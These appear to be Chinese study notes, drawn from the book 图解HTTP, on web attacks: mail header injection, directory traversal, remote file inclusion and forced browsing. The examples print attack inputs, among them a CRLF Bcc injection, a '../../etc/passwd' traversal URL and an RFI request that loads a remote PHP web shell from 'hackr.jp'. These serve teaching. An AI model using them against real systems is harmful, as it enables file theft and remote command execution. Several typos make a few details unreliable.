 # Web的攻击技术

---
绝大多数内容引自《图解HTTP》
---

## 邮件首部注入攻击

邮件首部注入（Mail Header Injection) 是指Web应用中的邮件发送功能，攻击者通过向邮件首部To 或 Subject 内任意添加非法内容发起的攻击。利用存在安全漏洞的Web网站，可对任意邮件地址发送广告邮件或病毒邮件。

- 邮件首部注入攻击案列

下面以Web页面中的咨询表单为例讲解邮件首部注入攻击。该功能可以在表单内填入咨询者的邮件地址及咨询内容后，以邮件的形式发送给网站管理员。

攻击者将以下数据作为邮件地址发起请求。

```
bob@hackr.jp%0D%0ABcc: user@example.com
```

%0D%0A 在邮件报文中代表换行符。一旦咨询表单所在的Web应用接收了这个换行符，就可能实现对Bcc邮件地址的追加发送，而这原本是无法指定的。

另外像下面一样，使用两个连续的换行符就有肯呢个篡改邮件文本内容并发送。

```
bob@hackr.jp%0D%0A%0D%0ATest Message
```

再以相同的方法，就有可能改写篡改邮件文本内容并发送。

再以相同的方法，就有可能改写To和 Subject 等任意邮件首部，或向文本添加附件等动作。

## 目录遍历攻击

目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。这种攻击有时也称为路径遍历(Path Traversal)攻击。

通过Web应用对文件处理操作时，在由外部指定文件名的处理存在疏漏的情况下，用户可使用.../等相对路径定位到/etc/passed 等绝对路径上，因此服务器上任意的文件或文件目录皆有可能被访问到。这样一来，就有可能非法浏览、篡改或删除Web服务器上的文件。

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问权限。

- 目录遍历攻击案列

下面以显示读取文件功能为例，讲解目录比阿尼攻击。该功能通过以下查询字段，指定某个文件名。然后从/www/log/文件目录下读取这个指定的文件。

```
http://example.com/read.php?log=0401.log
```

攻击者设置如下查询字段后发出请求。

```
http://example.com/read.php?log=../../etc/passwd
```

查询字段为了读取攻击者盯上的/etc/passwd 文件，会从/www/log/目录开始定位相对路径。如果这份 read.php脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。

## 远程文件包含漏洞

远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL充当依赖文件，让脚本读取之后，就可以运行任意脚本的一种攻击。

这主要是PHP存在的安全漏洞，对PHP的include或require来说，这是一种可通过设定，指定外部服务器URL作为文件名的功能。但是，该功能太危险了， PHP5.2.0之后默认设定此功能无效。

固然存在输出值转义的问题，但更应控制对任意文件名的指定。

- 远程文件包含漏洞的攻击案列

下面以include读入由查询字段指定文件的功能为例，讲解远程文件包含漏洞。该功能可通过以下查询字段形式指定文件名，并在脚本内的include语句处读入这个指定文件。

```
http://example.com/foo.php?mod=news.php
```

对应脚本的源代码如下所示。

```
$modname = $_GET['mod'];
include($modname);
```

攻击者指定如同下面形式的URL发出请求。

```
http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
```

攻击者已事先在外部服务器上准备了一下这段脚本。

```
<? system($_GET['cmd']) ?>
```

假设Web服务器(example.com)的include可以引入外部服务器的URL，那就会读入攻击者在外部服务器上事先准备的URL（http://hackr.jp/cmd.php)。结果，通过system函数就能在Web服务器（example.com）上执行查询字段指定的OS命令了。


在以上攻击案列中，执行了可显示Web服务器（example.com）上文件及目录信息的ls命令。

# 因设置或设计上的缺陷应发的安全漏洞

因设置或设计上的缺陷引发的安全漏洞是指，错误设置Web服务器，或是由设计上的一些问题引起的安全漏洞。

## 强制浏览

强制浏览（Forced Browsing）安全漏洞是指，从安置在Web服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

强制浏览有可能会造成以下一些影响。

- 泄漏顾客的个人信息等重要情报
- 泄漏原本需要具有访问权限的用户才可查阅的信息内容
- 泄漏为外链到外界的文件

对那些原本不愿公开的文件，为了保证安全会隐蔽其URL。可一旦知道了哪些URL，也就意味着可浏览URL对应的文件。直接显示容易推测的文件名或文件目录索引时，通过某些方法可能会使URL产生泄漏。

